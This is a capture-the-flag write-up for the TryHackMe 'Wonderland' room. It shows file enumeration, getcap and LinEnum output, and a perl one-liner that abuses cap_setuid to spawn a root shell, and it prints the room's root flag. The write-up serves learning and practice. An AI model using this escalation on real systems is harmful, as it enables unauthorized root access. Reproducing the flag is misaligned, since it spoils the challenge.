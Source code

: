 1) let's see if the hatter owns any other files on the system that can give us some clues:
```
hatter@wonderland:~$ find / -xdev -user hatter 2>/dev/null
/home/hatter
/home/hatter/.local
/home/hatter/.local/share
/home/hatter/.local/share/nano
/home/hatter/.bash_logout
/home/hatter/password.txt
/home/hatter/.cache
/home/hatter/.cache/motd.legal-displayed
/home/hatter/.profile
/home/hatter/.bashrc
/home/hatter/.gnupg
/home/hatter/.gnupg/private-keys-v1.d
```

2)  let’s see if his group is part of something good:
```
hatter@wonderland:~$ find / -xdev -group hatter 2>/dev/null
/home/hatter
/home/hatter/.local
/home/hatter/.local/share
/home/hatter/.local/share/nano
/home/hatter/.bash_logout
/home/hatter/password.txt
/home/hatter/.cache
/home/hatter/.cache/motd.legal-displayed
/home/hatter/.profile
/home/hatter/.bashrc
/home/hatter/.gnupg
/home/hatter/.gnupg/private-keys-v1.d
/usr/bin/perl5.26.1
/usr/bin/perl
```

3) Let’s check the man page for  getcap
4) Let's see what happens if we run it on everything. I'd guess that overriding capabilities like this would be fairly rare:
```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

5) Thanks  [LinEmun.sh](https://github.com/rebootuser/LinEnum) I discover:
```
[+] Files with POSIX capabilities set:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
6) Spawn root shell: 
```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# 
```

7)After I get root flag:
```
root@wonderland:~# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}      
```
